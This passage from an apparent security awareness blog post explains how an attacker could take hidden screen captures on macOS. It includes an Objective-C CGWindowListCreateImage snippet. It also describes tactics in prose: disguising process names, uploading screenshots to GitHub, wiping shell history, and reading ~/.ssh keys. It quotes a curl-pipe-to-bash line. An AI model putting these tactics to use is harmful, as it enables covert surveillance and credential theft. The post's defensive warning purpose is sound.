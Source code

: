 Couple this with the process renaming and the hacker is virtually a ghost; he’s able to take screen captures and store them in different locations or pipe them somewhere without saving and without triggering any alarms that a screen capture took place.

### Using “CGWindowListCreateImage" to screen capture

All of the methods above have been using the `screencapture` utility, however it’s not really required if using Swift or Objective-C. MacOS provides libraries for reading a bitmap of the screen:

```swift
CGImageRef screenshot = CGWindowListCreateImage(
  CGRectInfinite,
  kCGWindowListOptionOnScreenOnly,
  kCGNullWindowID,
  kCGWindowImageDefault);

NSBitmapImageRep *bitmapRep = [[NSBitmapImageRep alloc] initWithCGImage:screenshot];
```

All a hacker needs to do is invoke `CGWindowListCreateImage` and he has a screen capture in an instant. Always make sure you absolutely trust any applications you install on your machine.

### Conclusion

As you can see, there’s multiple ways a hacker can go nearly undetectable while taking screen captures. The hacker can run a script to run a process with a name that’s indistinguishable from macOS system processes. It’s very easy to have the script be ran on boot and randomly take screen captures throughout the day. It’s trivial to compress and reduce the images and then have them sent in a batch to a remote service like Github to store the content because you can anonymously create an account and authenticate with a token on the computer. History can be wiped after executing scripts, including the history of the history wiping itself.

Using apps like [LittleSnitch](https://www.obdev.at/products/littlesnitch/index.html) for monitoring can help but nothing is bullet proof since there’s many ways someone can obfuscate data and make request appear indistinguishable from services you use.

If you’re asking how someone can load such script on your computer in the first place, well there’s a few ways; a hacker can load the script through a package backdoor, like an NPM module. Also how many times have you ran something like `curl -s -L [http://example.com/script.sh](http://example.com/script.sh) | bash` where it automatically executes a complex bash script where you have no idea what’s going on. Also important to know is that everything in your home folder doesn’t require root access, meaning any program can access your config files such as your SSH folder ~/.ssh and read your private keys.

